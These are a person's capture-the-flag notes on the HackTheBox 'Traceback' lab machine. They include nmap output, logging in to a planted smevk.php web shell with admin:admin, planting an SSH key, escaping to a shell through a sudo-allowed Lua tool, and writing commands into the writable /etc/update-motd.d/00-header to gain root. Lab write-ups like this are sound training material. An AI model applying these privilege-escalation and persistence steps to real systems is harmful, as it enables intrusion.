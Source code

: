 ```yaml
---
attachments: [traceback-port80.png]
title: HackTheBox - Traceback Notes
created: '2020-05-21T10:59:22.213Z'
modified: '2020-05-21T11:20:08.836Z'
---
```


# HackTheBox - Traceback Notes

Machine IP: `10.10.10.181` 


## Nmap Scan

```
# Nmap 7.80 scan initiated Thu May 21 13:05:58 2020 as: nmap -A -p22,80 -oN initial.nmap 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Android 4.2.2 (Linux 3.4) (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   206.01 ms 10.10.14.1
2   206.29 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 21 13:06:22 2020 -- 1 IP address (1 host up) scanned in 25.55 seconds

```

## Initial Foothold

Opening http://10.10.10.181 (port 80) gives us a defaced page.

![Image](/root/Documents/notes/traceback-port80.png)

The HTML comment says `Some of the best web shells that you might need ;)`

Google the HTML comment and first result will be of a repository containing many web shells, appending all PHP file names gives us result that smevk.php has been used to deface, to login to the webshell (smevk.php),credentials `admin:admin` will work.

There are two users.
1. webadmin
2. sysadmin

Add your SSH key to /home/webadmin/.ssh/ as authorized_keys and login via SSH.

## Horizontal PrivEsc

Use `sudo -l` to check sudo permissions.

```
User webadmin may run the following commands on traceback: 
(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

/home/webadmin/note.txt says

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

The `luvit` file in sysadmin's home directory is a lua script.

Run it and execute following command to get shell of sysadmin

`os.execute("/bin/bash -i")`

## PrivEsc to Root

Using LinPeas tells us that /etc/update-motd.d is writable by sysadmin.

Run `echo "cat /root/root.txt" > /etc/update-motd.d/00-header`
Exit out of the shell and SSH again.

The startup message will have the root flag as 00-header is responsible for running those commands when a new login appears.
